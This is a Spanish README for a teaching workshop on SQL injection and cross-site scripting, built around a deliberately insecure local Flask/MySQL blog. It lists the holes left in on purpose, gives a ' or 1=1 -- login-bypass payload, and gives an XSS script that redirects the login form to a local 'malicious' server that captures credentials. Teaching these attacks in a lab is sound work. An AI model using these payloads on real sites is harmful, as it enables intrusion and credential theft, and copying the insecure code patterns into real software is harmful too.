 # TallerCiberseguridad

Este taller pretende mostrar con ejemplos algunas técnicas usadas para explotar debilidades de seguridad, concretamente en qué consiste el **SQLInjection** y el **Cross Site Scripting**.

# Advertencia:

Con la finalidad de mostrar estos datos, hemos recurrido a varias irregularidades en el código, como pueden ser:

* No escapar el texto que nos llega en una petición (a través del cual luego haremos **XSS**).
* Componer la query **SQL** concatenando textos, en lugar de hacer uso de los **prepared statements**.
* No estamos cifrando las claves de los usuarios en las bases de datos.
* La conexión a la base de datos hace uso de usuario y contraseña, hardcodeados en el código.
* Hemos subido a un repositorio público el **secret** de nuestra aplicación.

# Dependencias

Vienen indicadas en el fichero **requirements**, son los módulos **flask** y **pymysql**. Puedes instalarlos con **pip**

```bash 
pip install flask
pip install pymysql
``` 

# Preparación

Se necesita una base de datos MySQL en local, con usuario **root** con contraseña **root** (podemos usar otra base de datos y/o usuario, contraseña, siempre que lo modifiquemos en el código), sobre la que ejecutaremos el siguiente código:

```sql
create database usuarios
create table usuarios (email varchar(64), clave varchar(32), created timestamp default CURRENT_TIMESTAMP, primary key (email));
insert into usuarios (email, clave) values ('misterio@raro.sa','123abc');
insert into usuarios (email, clave) values ('vegeta@gmail.com','777');
``` 

# Desarrollo

## 1- Levantar el servidor 

Ejecutamos el proceso **ServerBlog.py**. Para ello la base de datos debe estar corriendo.

## 2- Mostrar la página

Se muestra el uso general de la página, que obliga a hacer login para poder publicar comentario.

Existen dos usuarios, usaremos el usuario **vegeta@gmail.com** con contraseña **777** para mostrar que se puede publicar un comentario.

## 3- Ahora nos saltamos la seguridad

Posteriormente nos conectaremos como otro usuario cuya contraseña (supuestamente) no conocemos, el usuario **misterio@raro.sa** y como contraseña realizaremos el **SQLInjection**. Para ello escribiremos lo siguiente como contraseña:

```sql
' or 1=1  -- 
``` 

## 4- Y ahora nos toca robar datos

Ejecutamos el segundo servidor, **fakeServer.py**. Esto simula ser un servidor maligno creado para robar datos.

Nos autenticamos usando lo visto en el punto anterior, y añadimos un comentario haciendo uso de una vulnerabilidad de *XSS*.

```html
<script type="text/javascript">
var temp = document.getElementById("loginFrame");
delete temp.src;
temp.srcdoc='<!DOCTYPE html><html lang="en"><head>    <meta charset="UTF-8">    <title>Cutre Login</title></head><body><form action="http://127.0.0.1:5005/validateLogin" id="formLogin" method="POST">  <label for="user">user:</label>  <input type="text" id="user" name="user"><br><br>  <label for="pass">pass:</label>  <input type="password" id="pass" name="pass"><br><br>  <input type="submit" value="Submit"></form></body></html>';
</script>
``` 

Al hacerlo, sin que se vea en el código fuente, hemos cambaido el formulario de login, para hacer que apunte a nuestro servidor maligno. 

Intentamos logarnos con unos datos cualquiera, y mostramos cómo el servidor maligno ha capturado los datos.



